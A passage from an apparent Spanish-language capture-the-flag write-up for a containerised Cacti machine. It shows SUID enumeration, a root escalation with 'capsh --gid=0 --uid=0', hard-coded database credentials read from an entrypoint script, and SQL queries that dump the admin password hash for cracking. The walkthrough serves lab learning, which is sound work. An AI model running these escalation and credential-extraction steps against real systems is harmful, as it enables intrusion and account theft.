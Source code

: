 ```bash
-rwsr-xr-x 1 root root 35K Jan 20  2022 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 71K Jan 20  2022 /bin/su
```

La enumeración realizada por `linpeas.sh` indica que la shell se esta ejecutando en un contenedor, ademas de esto tambien existe un binario con SUID el cual nos permite escalar privilegios facilmente.

```bash
www-data@50bca5e748b0:/sbin$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --

whoami
root
```

### Extracción y crackeo de hashes

Si leemos el contenido de `/entrypoint.sh` podremos observar unas cuantas instrucciones que se ejecutan en una base de datos llamada `cacti`.

```bash
cat /entrypoint.sh
-----------------------
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi
-----------------------
```

Podemos utilizar la información anterior para ejecutar comandos en la base de datos de la siguiente forma:

```bash
mysql --host=db --user=root --password=root cacti -e "show TABLES;"
...
user_auth
user_auth_cache
user_auth_group
user_auth_group_members
user_auth_group_perms
user_auth_group_realm
user_auth_perms
user_auth_realm
user_domains
user_domains_ldap
user_log
...

mysql --host=db --user=root --password=root cacti -e "SELECT username, password FROM user_auth;"
username	password
admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
```